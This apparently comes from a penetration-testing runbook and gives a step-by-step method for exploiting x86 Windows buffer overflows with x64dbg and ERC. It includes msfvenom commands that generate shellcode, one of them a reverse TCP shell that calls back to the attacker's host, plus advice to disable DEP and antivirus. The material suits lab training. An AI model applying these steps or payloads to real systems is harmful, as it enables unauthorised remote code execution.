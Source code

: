 # buffer overflow x86 windows

## Step 0: Setup

- Install [x64dbg](https://github.com/x64dbg/x64dbg), the x32 version.
- Install [ERC](https://github.com/Andy53/ERC.Xdbg), also the x32 version.

## Step 1: Take control EIP

- Get rough estimate offset (e.g. 1000)
- Create pattern.
```shell
ERC --pattern c 5000
```

- Calculate exact offset using the value of the EIP.
```shell
ERC --pattern o 1hF0
```
or automatically using
```shell
ERC --findNRP
```

- Verify offset by overwriting EIP.

## Step 2: Identify bad chars

- Generate chars string.

```shell
ERC --bytearray -bytes 0x00
```

- Compare characters from array to character in memory region, using the value of the ESP.

```shell
ERC --compare 009A19E4 C:\Users\windows\Downloads\x96dbg\x32\plugins\ByteArray_1.bin
```

## Step 3: Identify return address

To find a list of all loaded files by the program, we can use 

```shell
ERC --ModuleInfo
```

## Step 4: Generate shellcode

- Generate shellcode using `msfvenom`.
```shell
msfvenom -p "windows/exec" CMD="cmd.exe" --format "python" --bad-chars "\x00"
```
```shell
msfvenom -p "windows/shell_reverse_tcp" LHOST=$me LPORT=4444 -f "python" --bad-chars "\x00"
```

- When running shellcode locally in Windows 10 VM make sure to
  - Disable _data execution protection_
  - Windows defender / antivirus

## Python

- A Python script for buffer overflow can be at [GitHub](https://github.com/a3cipher/runbook/blob/main/ptes3-exploitation/binary-exploitation/bo-x86-windows.py).
